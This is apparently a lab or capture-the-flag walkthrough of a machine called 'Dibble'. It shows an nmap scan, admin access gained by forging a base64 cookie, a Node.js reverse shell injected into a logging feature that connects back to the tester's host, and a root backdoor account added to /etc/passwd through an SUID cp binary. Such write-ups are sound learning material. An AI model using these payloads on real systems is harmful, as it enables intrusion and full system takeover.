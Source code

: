 # Dibble

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.110
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 12:24 +08
Nmap scan report for 192.168.157.110
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
3000/tcp  open  ppp
27017/tcp open  mongod
```

FTP accepts anonymous logins but there's nothing within it.&#x20;

### Web Enum --> Admin Takeover

Port 80 shows a blog about some web exploits:

<figure><img src="../../../.gitbook/assets/image (13) (3).png" alt=""><figcaption></figcaption></figure>

Port 3000 shows a more dynamic incident reporting site:

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

I registed a new account and looked at the events:

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

Doesn't look super relevant. I checked Burpsuite, and noticed this cookie:

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

When decoded, it gives `default`. I changed it to a `base64` encoded `admin` string, giving `YWRtaW4=`, which allows us to create logs.

### RCE

The new log event specified that we can write code in it:

<figure><img src="../../../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>

The `X-Powered-By` header specified that this was using Express, which is Javascript. Since we can directly write code, I tried putting in a Node.js reverse shell:

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("bash", []);
    var client = new net.Socket();
    client.connect(21, "192.168.45.196", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

When we submit thiss, we get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (12) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### cp SUID --> Root

`cp` is an SUID binary on this machine:

```
[benjamin@dibble ~]$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/cp
```

We can use this to overwrite files, just add this line into a copy of the current `/etc/passwd`:

```
hacker:$1$ZNhJDyK2$vksoiVz4W8rhrWm8BKxWK/:0:0::/root:/bin/bash
```

Then, use `cp` to overwrite the existing `/etc/passwd` file and `su` to `hacker` with 'hello123':

<figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>
